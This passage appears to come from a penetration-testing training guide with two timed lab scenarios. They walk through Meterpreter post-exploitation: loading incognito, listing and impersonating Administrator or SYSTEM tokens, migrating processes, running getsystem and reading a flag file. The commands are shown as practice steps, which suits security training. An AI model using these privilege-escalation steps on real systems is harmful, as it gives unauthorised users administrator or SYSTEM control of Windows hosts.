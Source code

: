 **Step-by-Step Solution:**
```bash
# Step 1: Load token manipulation module (1 minute)
load incognito
# Look for "Success" message

# Step 2: Enumerate available tokens (1 minute)
list_tokens -u
# Look for Administrator or other high-privilege accounts

# Step 3: Impersonate administrator token (2 minutes)
impersonate_token DOMAIN\\Administrator
# Replace DOMAIN with actual domain name from token list

# Step 4: Verify escalation (1 minute)
getuid
# Confirm new user context shows Administrator

# Step 5: Complete objective (2-3 minutes)
cat C:\\Users\\Administrator\\Desktop\\flag.txt
# Or navigate to find target file
```

#### **Scenario 2: Service Account to SYSTEM Escalation**
**Given:** Meterpreter session with service account access
**Your Job:** Achieve SYSTEM level privileges
**Time Limit:** 8-10 minutes

**Step-by-Step Solution:**
```bash
# Step 1: Load incognito and assess current state (2 minutes)
getuid
load incognito
list_tokens -u

# Step 2: Look for SYSTEM or Administrator tokens (2 minutes)
# If no high-privilege tokens found, try process migration first
ps
migrate [PID_of_higher_privilege_process]

# Step 3: Re-enumerate tokens after migration (1 minute)
list_tokens -u
# Should now see more available tokens

# Step 4: Impersonate highest available token (2 minutes)
impersonate_token NT\ AUTHORITY\\SYSTEM
# Or use Administrator if SYSTEM not available

# Step 5: Verify and complete mission (3 minutes)
getuid
getsystem  # Alternative escalation method
# Complete assigned objectives
```
